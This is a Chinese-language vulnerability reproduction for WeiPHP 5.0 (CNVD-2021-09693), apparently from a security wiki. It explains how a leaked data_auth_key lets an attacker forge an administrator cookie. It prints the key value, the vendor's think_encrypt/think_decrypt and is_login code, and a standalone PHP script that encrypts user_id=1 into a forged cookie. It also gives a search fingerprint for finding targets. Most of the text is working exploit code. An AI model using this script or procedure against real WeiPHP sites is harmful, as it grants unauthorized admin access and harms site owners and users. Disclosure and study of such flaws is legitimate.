





WeiPHP5.0 任意用户Cookie伪造 CNVD-2021-09693¶
漏洞描述¶
Weiphp5.0 存在管理员用户Cookie伪造，通过泄露的密钥数据，可利用加密方法来得到管理员的Cookie
漏洞影响¶
Weiphp <= 5.0
环境搭建¶
参考官方手册创建网站即可

网络测绘¶
app="WeiPHP"
漏洞复现¶
首先需要得到数据库配置文件中的**data_auth_key**密钥

得到这个配置文件可参照上一篇**Weiphp5.0 前台文件任意读取**
'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'
全局查找下使用了这个密钥的地方
找到了跟据这个密钥的加密方法和解密方法
加密方法 think_encrypt
function think_encrypt($data, $key = '', $expire = 0)
{
$key = md5(empty($key) ? config('database.data_auth_key') : $key);
$data = base64_encode($data);
$x = 0;
$len = strlen($data);
$l = strlen($key);
$char = '';
for ($i = 0; $i < $len; $i++) {
if ($x == $l) {
$x = 0;
}
$char .= substr($key, $x, 1);
$x++;
}
$str = sprintf('%010d', $expire ? $expire + time() : 0);
for ($i = 0; $i < $len; $i++) {
$str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
}
return str_replace(array(
'+',
'/',
'='
), array(
'-',
'_',
''
), base64_encode($str));
}
解密方法 think_decrypt
function think_decrypt($data, $key = '')
{
$key = md5(empty($key) ? config('database.data_auth_key') : $key);
$data = str_replace(array(
'-',
'_'
), array(
'+',
'/'
), $data);
$mod4 = strlen($data) % 4;
if ($mod4) {
$data .= substr('====', $mod4);
}
$data = base64_decode($data);
$expire = substr($data, 0, 10);
$data = substr($data, 10);
if ($expire > 0 && $expire < time()) {
return '';
}
$x = 0;
$len = strlen($data);
$l = strlen($key);
$char = $str = '';
for ($i = 0; $i < $len; $i++) {
if ($x == $l) {
$x = 0;
}
$char .= substr($key, $x, 1);
$x++;
}
for ($i = 0; $i < $len; $i++) {
if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
$str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
} else {
$str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
}
}
return base64_decode($str);
}
全局查看下使用了解密方法的地方
在文件 application\common.php 中含有使用解密方法的代码，用于做身份验证
function is_login()
{
$user = session('user_auth');
if (empty($user)) {
$cookie_uid = cookie('user_id');
if (!empty($cookie_uid)) {
$uid = think_decrypt($cookie_uid);
$userinfo = getUserInfo($uid);
D('common/User')->autoLogin($userinfo);
$user = session('user_auth');
}
}
if (empty($user)) {
return 0;
} else {
return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
}
}
根据这里得到的代码，可以知道当**user_Id=1**时,会解密密钥后判断是否正确，如果正确则可以登录系统
我们在本地使用加密代码加密**user_id=1**得到的cookie则可以登录系统
<?php
show_source(__FILE__);
function think_encrypt($data, $key = '', $expire = 0)
{
$key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
$key = md5($key);
$data = base64_encode($data);
$x = 0;
$len = strlen($data);
$l = strlen($key);
$char = '';
for ($i = 0; $i < $len; $i++) {
if ($x == $l) {
$x = 0;
}
$char .= substr($key, $x, 1);
$x++;
}
$str = sprintf('%010d', $expire ? $expire + time() : 0);
for ($i = 0; $i < $len; $i++) {
$str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
}
return str_replace(array(
'+',
'/',
'='
), array(
'-',
'_',
''
), base64_encode($str));
}
echo 'user_id = ' . think_encrypt($_GET['user_id']);
?>

添加**cookie: user_id=xxxxxxxx**即可成功登录


- 获取密钥的方法参照上一篇审计文章